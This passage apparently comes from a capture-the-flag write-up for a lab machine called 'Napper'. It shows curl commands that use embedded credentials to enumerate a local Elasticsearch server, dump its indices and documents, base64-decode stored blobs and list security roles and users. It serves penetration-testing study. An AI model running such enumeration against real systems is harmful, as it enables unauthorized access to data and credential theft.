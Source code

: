 > **Elasticsearch** uses an efficient data structure called an inverted index to facilitate fast full-text searches. This index lists every unique word in the documents and identifies the documents in which each word appears.

```bash
curl -s -k -X GET 'https://user:DumpPassword$Here@127.0.0.1:9200/_cat/indices?v'
#    --> seed, user-00001
curl -s -k -X GET 'https://user:DumpPassword$Here@127.0.0.1:9200/seed/_search?pretty=true'
curl -s -k -X GET 'https://user:DumpPassword$Here@127.0.0.1:9200/seed/_search?pretty=true' | grep seed
#    --> Seed static?
curl -s -k -X GET 'https://user:DumpPassword$Here@127.0.0.1:9200/seed/_search?pretty=true' | grep seed
#    --> Seed dynamic!

curl -s -k -X GET 'https://user:DumpPassword$Here@127.0.0.1:9200/user-00001/_search?pretty=true'
echo dczRzo8BAQ7RBElmzKAp | base64 -d; echo
echo puMhtHJptAV5ujPQWrBkYqyDVAUh9JGCvJ43T9CMrGWLZa7T9I-FoxDvpNZrlnSWNCo4Db8RMVk= | base64 -d; echo

curl -s -k -X GET 'https://user:DumpPassword$Here@127.0.0.1:9200/user-00001/_search?pretty=true' | grep blob
#    --> Dynamic value!

curl -s -k -X GET 'https://user:DumpPassword$Here@127.0.0.1:9200/_security/role' | jq
curl -s -k -X GET 'https://user:DumpPassword$Here@127.0.0.1:9200/_security/user' | jq
curl -s -k -X GET 'https://user:DumpPassword$Here@127.0.0.1:9200/_security/user/backup' | jq
#    --> ...is unauthorized for user...
```

<br />
<img src="{{ site.img_path }}/napper_writeup/Napper_060.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/napper_writeup/Napper_061.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/napper_writeup/Napper_062.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/napper_writeup/Napper_063.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br/>
<img src="{{ site.img_path }}/napper_writeup/Napper_064.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/napper_writeup/Napper_065.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/napper_writeup/Napper_066.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/napper_writeup/Napper_067.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/napper_writeup/Napper_068.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br /><br />
